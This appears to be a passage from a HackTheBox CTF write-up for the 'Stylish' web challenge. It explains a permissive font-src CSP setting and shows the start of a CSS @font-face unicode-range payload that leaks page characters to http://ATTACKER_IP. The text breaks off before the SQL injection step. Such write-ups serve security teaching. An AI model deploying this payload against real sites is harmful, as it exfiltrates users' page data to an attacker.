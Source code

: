 ```yaml
---
title: Hackthebox Challenge - Stylish
date: 2024-09-03
categories: [Writeups, Hackthebox Challenge]
tags: [CTF, Web, medium]
---
```


# Stylish - MEDIUM

## Description

A new card generator platform just went live. Apparently everything seems to be good but is it really like this? Find your way in with style!

<Sup>Author: @Nauten</sup><br>

## TL;DR

1. Exploit CSS Blind Injection
2. SQLInjection to get flag

## Solution

### CSS Injection

At the root path in file `index.js` is misconfiguration of setting csp

```javascript
app.use(function (req, res, next) {
  res.setHeader(
    "Content-Security-Policy",
    "default-src 'self'; object-src 'none'; img-src 'self'; style-src 'self'; font-src 'self' *;"
  );
  next();
});
```

That allowed an attacker to use **@font-face unicode range** to read data of page.
[ref](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)

And the first css payload should be

<details open>
<summary>
Click to see Large CSS Payload
</summary>
<pre>
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=a);
    unicode-range: U+0061;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=b);
    unicode-range: U+0062;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=c);
    unicode-range: U+0063;
}